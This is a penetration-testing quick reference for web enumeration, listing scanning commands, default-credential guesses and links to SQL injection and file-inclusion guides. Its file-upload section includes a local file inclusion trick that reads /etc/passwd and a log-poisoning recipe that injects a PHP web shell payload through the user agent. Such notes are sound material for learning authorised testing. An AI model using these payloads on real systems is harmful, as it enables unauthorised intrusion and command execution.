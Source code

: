 # Web Enum Quick Reference  
HTTP and HTTPS Checklist   
- [ ] Look for service name and version - searchsploit / google for exploits   
- [ ] Service specific scanners: wpscan, sqlmap     
- [ ] Check for a robots.txt page    
- [ ] Scan page with Wappanalyzer  
- [ ] Scan for sub directories and pages - admin pages?, login pages?, file upload?, user input fields?    
- [ ] Admin page - access misconfigs, login?       
- [ ] Log in pages - guess default creds, admin:admin, admin:password   
- [ ] File upload pages - what types of files are accepted?, what checks are being implemented?  
- [ ] User input fields: SQL injection, cross site scripting   
- [ ] Intercept HTTP requests with Burp and examine    	

	Reference: [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings)    
    [Wappanalyzer](https://addons.mozilla.org/en-US/firefox/addon/wappalyzer/), [Foxy Proxy](https://addons.mozilla.org/en-US/firefox/addon/foxyproxy-standard/) and [user agent switcher](https://addons.mozilla.org/en-US/firefox/addon/uaswitcher/) Firefox extensions  
**Scan for sub directories and pages** 	
	
	
        nmap http scripts     
        nikto -h http://127.0.0.1:80/     
        dirb http://127.0.0.1/   (default word list: common.txt)     
        gobuster dir -u http://127.0.0.1/ -w /usr/share/seclists/Discovery/Web-Content/big.txt -e -k -s "200,204,301,302,307,403,500" -x "txt,html,php,asp,aspx,jsp" -z    
	ffuf -w wordlist.txt -u https://example.org/FUZZ -mc all -c -v


	
## Login pages   
	
	Default creds - admin: admin, admin:password, service specific default creds   
	Register a new user  
	Brute force log in  
	SQL injection  

## File Upload Pages  

Local File Include  
[Local File Inclusion](http://resources.infosecinstitute.com/local-file-inclusion-code-execution/#gref)   
[Guide to LFI](http://www.securityidiots.com/Web-Pentest/LFI/guide-to-lfi.html)    
	
	
	/etc/passwd, etc.
	can you include a remote file?
	?test=php://filter/convert.base64-encode/resource=/filepath      -> base64 encode /decode  
Log Poisoning 
	open: /log/apache2/access.log 
	send payload as user agent string: <?php system($_GET['cmd']); ?>    
	/log/apache2/access.log&cmd=id    

	
[SQL Injection Cheatsheet](https://github.com/codingo/OSCP-2/blob/master/Documents/SQL%20Injection%20Cheatsheet.md) 
	 
 
	
	
	
References:   
[OWASP Web App Testing Guide](https://owasp.org/www-project-web-security-testing-guide/stable/)    
[OWASP Cheat Sheet Series](https://cheatsheetseries.owasp.org/Glossary.html)    
[Bypassing File Upload Restrictions ](http://www.securityidiots.com/Web-Pentest/hacking-website-by-shell-uploading.html)      
[Web vulnerabilities to gain access to the system - paper](https://www.exploit-db.com/papers/13017/)     

Basic SQLi 
http://www.securityidiots.com/Web-Pentest/SQL-Injection/Part-1-Basic-of-SQL-for-SQLi.html 
http://www.securityidiots.com/Web-Pentest/SQL-Injection/Part-2-Basic-of-SQL-for-SQLi.html 
http://www.securityidiots.com/Web-Pentest/SQL-Injection/Part-3-Basic-of-SQL-for-SQLi.html 
http://www.sqlinjection.net/login/
